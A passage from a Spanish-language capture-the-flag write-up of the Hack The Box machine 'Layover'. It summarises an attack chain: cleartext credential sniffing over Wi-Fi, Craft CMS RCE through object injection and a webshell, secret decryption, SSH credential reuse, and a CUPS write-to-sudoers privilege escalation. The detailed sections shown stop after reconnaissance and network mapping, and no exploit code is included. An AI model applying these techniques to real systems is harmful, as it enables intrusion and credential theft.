# HTB Layover — Writeup técnico (RDP pivot → sniffing Wi-Fi → Craft CMS RCE → CUPS LPE a root)

**Objetivo:** `10.129.163.232` (Linux / Ubuntu, host de paso `airside-ws01`)
**Red interna (pivote):** `10.13.37.0/24` · portal `portal.international.htb` (`10.13.37.10`) · cautivo `wifi.international.htb` (`10.13.37.1`)
**Atacante (VPN tun0):** `10.10.16.77`
**Credenciales entregadas:** `contractor / Contractor****` (acceso RDP "assumed breach")
**Dificultad:** Media (Linux)
**Resultado:**
- `user.txt` → `b6930da5****`
- `root.txt` → `1b5b147e****`

> **Evidencias visuales.** Las capturas citadas en este documento se entregan en `screenshots/`. Proceden de la sesión RDP real sobre `airside-ws01`; algunas muestran pruebas descartadas y se identifican como tales. La ejecución como `www-data` y la escalada por CUPS se acreditan con las salidas de comandos reproducidas en el texto, sin atribuirles una captura que no existe.
>
> **Sobre flags y credenciales (versión pública).** HTB genera `user.txt`/`root.txt` **por instancia**: el valor válido es el del despliegue activo en el momento de la explotación. Por política de divulgación responsable, en esta versión pública **las flags y las contraseñas/claves han sido enmascaradas** en el texto (p. ej. `b6930da5****`, `Contractor****`, `Fl1ght****`, `Skyp0rt****`, `CraftDB_pw_****`) y **redactadas en las capturas** donde aparecen. Los enmascaramientos son deliberados y no afectan a la reproducibilidad del procedimiento.

---

## 0. Resumen ejecutivo

Layover es una máquina Linux (Medium) planteada como **assumed breach**: no se parte de un escaneo ciego, sino de credenciales válidas de un contratista. La superficie inicial la forman dos servicios **RDP y SSH**, pero el reto real vive **detrás** de un host de paso con acceso a una red interna mal segmentada. La cadena de compromiso tiene seis etapas:

1. **Acceso inicial (RDP):** las credenciales `contractor:Contractor****` dan acceso por escritorio remoto (XFCE) al host `airside-ws01`. La cuenta pertenece a los grupos `sudo`, `netdev` y **`wireshark`**.
2. **Red interna por Wi-Fi:** `airside-ws01` tiene una segunda interfaz `wlan2` en la red interna `10.13.37.0/24`. El portal cautivo `wifi.international.htb` anuncia el portal de empleados `portal.international.htb/miles/`.
3. **Captura de credenciales en claro:** se crea la interfaz monitor `mon0` y se captura con `tcpdump`/`tshark` un `POST` HTTP **en texto plano** a `/miles/login.php` con `username`/`password`. La captura decisiva usa `sudo`.
4. **RCE autenticada en Craft CMS 5.9.8:** la credencial capturada es válida en el control panel (`/admin`). El endpoint `element-search` instancia objetos desde JSON; inyectando un *behavior* de Yii2 (`AttributeTypecastBehavior`) cuyo callable apunta a `ConsoleProcessus::execute()` se logra **ejecución de comandos ciega** como `www-data` y se despliega un webshell en `/assets/shell.php`.
5. **Post-explotación y pivote:** `.env` entrega la `CRAFT_SECURITY_KEY` y credenciales de MySQL; el módulo `htbairways` guarda el secreto del relé de correo **cifrado** en la tabla `htbairways_settings` y se descifra reutilizando la clave de seguridad (componente `Security` de Yii2) → `aporter:Skyp0rt****`. La credencial se reutiliza para **SSH** a `10.13.37.10` → `user.txt`.
6. **Escalada a root (CVE-2026-34990, CUPS ≤ 2.4.16):** se filtra el token de autenticación local de `cupsd` (escucha sólo en `127.0.0.1:631`) mediante un servidor IPP malicioso y se abusa de un `device-uri` `file://` para escribir un fragmento en `/etc/sudoers.d/` → `root.txt`.

Dos controles mal configurados concentran el riesgo: **credenciales de empleado viajando por HTTP sin cifrar en una red Wi-Fi de acceso compartida** con una cuenta de bajo privilegio capaz de capturar paquetes, y **un servicio local (CUPS) que otorga a un usuario sin privilegios la capacidad de escribir ficheros arbitrarios como root**.

---

## 1. Reconocimiento

Comprobación inicial de superficie con los 1000 puertos TCP más comunes:

```bash
nmap -Pn -sT -sV --top-ports 1000 -T3 -oN nmap-initial.txt 10.129.163.232
```

```
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 9.6p1 Ubuntu 3ubuntu13.19 (Ubuntu Linux)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
```

Escaneo completo de puertos para descartar superficie oculta:

```bash
nmap -Pn -sT -p- --min-rate 200 --max-retries 2 -T3 -oN nmap-full.txt 10.129.163.232
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
3389/tcp open  ms-wbt-server
```

La huella RDP (`--script rdp-ntlm-info,rdp-enum-encryption`) confirma que el servicio acepta conexiones RDP. `ms-wbt-server` es la etiqueta de servicio de Nmap, no una identificación de Windows. La sesión posterior mostró un escritorio XFCE de Linux. SSH también estaba abierto, pero rechazó la cuenta entregada; RDP fue la vía de entrada que funcionó.

---

## 2. Acceso por RDP (`contractor`) y enumeración de la cuenta

Se inicia sesión por RDP con `contractor / Contractor****` sobre un escritorio XFCE y se enumera la identidad y privilegios de la cuenta:

```bash
id; hostname
# uid=1001(contractor) gid=1001(contractor) groups=1001(contractor),27(sudo),111(netdev),121(wireshark)
# airside-ws01
```

Dos hechos relevantes para la cadena:

- `27(sudo)` — `contractor` puede escalar a root en **este** host (no en el objetivo final). Se confirma con `sudo -l`/`sudo -v`.
- `121(wireshark)` — pista para investigar captura de tráfico. La toma que recuperó el POST se hizo con `sudo` sobre `mon0`; la pertenencia al grupo no demuestra por sí sola capacidad para poner la radio en modo monitor sin privilegios.


*Fig. 2.1 — Escritorio XFCE del host `airside-ws01` alcanzado por RDP con la cuenta `contractor`. Prueba de que el acceso es una sesión gráfica real sobre un host Linux (no Windows), punto de partida del pivot.*


*Fig. 2.2 — Terminal de la sesión XFCE. Todas las acciones contra la red interna se ejecutan desde este host, que es el único con visibilidad a `10.13.37.0/24`.*


*Fig. 2.3 — Comprobación de `sudo -l`: el usuario `contractor` pertenece a `sudo`. Pista clave: el privilegio es local a `airside-ws01`, no al objetivo final; sirve para reconocer este host como punto de paso y no el objetivo.*


*Fig. 2.4 — `sudo id` devuelve `uid=0(root)` en el host de paso; `ip -brief addr` muestra las interfaces inalámbricas aún desconectadas. La imagen no muestra la pertenencia al grupo `wireshark`, que consta en la salida de `id` del bloque anterior.*


*Fig. 2.5 — Enumeración básica del host de paso (versión de SO, interfaces, herramientas disponibles) que orienta el pivot a la red interna.*

> **Nota de método:** `sudo` en `airside-ws01` no da por terminado el reto; el objetivo (`portal`, `10.13.37.10`) vive en la red interna y aún no es accesible directamente. Es un host de paso (jump box).

---

## 3. Red interna por Wi-Fi y portal cautivo

`airside-ws01` tiene una segunda interfaz inalámbrica en la red interna:

```bash
ip -brief addr show wlan2
# wlan2    UP    10.13.37.182/24
```

El navegador abre automáticamente el portal cautivo `http://wifi.international.htb`, que muestra el **aviso de personal** y enlaza explícitamente el portal de millas de empleados:

> "HTB Airways Miles members: … sign in … from `http://portal.international.htb/miles/`"

La resolución de nombres confirma el mapeo interno:

```bash
getent hosts portal.international.htb
# 10.13.37.10     portal.international.htb
```


*Fig. 3.1 — Portal cautivo de la red Wi-Fi interna (`wifi.international.htb`). Aporta el enlace al portal de empleados `portal.international.htb/miles/` y confirma que la red de acceso es abierta.*


*Fig. 3.2 — Doble conexión: interfaz de gestión y `wlan2` en `10.13.37.182/24`. Evidencia de que el host de paso está en dos redes (segmentación insuficiente).*


*Fig. 3.3 — Estado de la conexión inalámbrica tras asociar a la red interna. Pista: la IP `10.13.37.182` asignada por DHCP confirma que el host ya está dentro de la red `10.13.37.0/24`.*


*Fig. 3.4 — Configuración de `wlan2` y su pertenencia a la red `10.13.37.0/24`.*


*Fig. 3.5 — Rutas y configuración local del host de paso, base para el pivot hacia `10.13.37.10`.*


*Fig. 3.6 — Resolución de `portal.international.htb` → `10.13.37.10`, confirmando el objetivo del pivot.*


*Fig. 3.7 — Mapa de la aplicación del portal (enlaces a `/miles/`, `/terminal.html`, `/wiFi`) que define la superficie a enumerar.*


*Fig. 3.8 — Enumeración de hosts activos en `10.13.37.0/24`: `10.13.37.1` (cautivo `wifi.international.htb`) y `10.13.37.10` (portal).*

